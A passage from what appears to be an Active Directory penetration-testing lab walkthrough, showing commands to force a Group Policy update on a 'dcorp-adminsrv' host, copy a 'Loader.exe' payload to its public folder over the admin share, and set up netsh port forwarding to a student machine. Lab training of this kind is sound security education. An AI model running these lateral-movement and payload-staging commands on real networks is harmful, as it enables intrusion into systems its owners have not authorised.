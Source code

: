 <figure><img src="../../.gitbook/assets/image (26) (1).png" alt=""><figcaption></figcaption></figure>

Now, we can either wait for the Group Policy refresh or force an update on the dcorp-adminsrv machine. Let's go for the later using the following commands as studentx:

```powershell
winrs -r:dcorp-adminsrv cmd
gpupdate /force
```

Now, let's copy Loader on the machine, add portfowarding:

```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-adminsrv\C$\Users\Public\Loader.exe
```

```powershell
winrs -r:dcorp-adminsrv cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.67
```
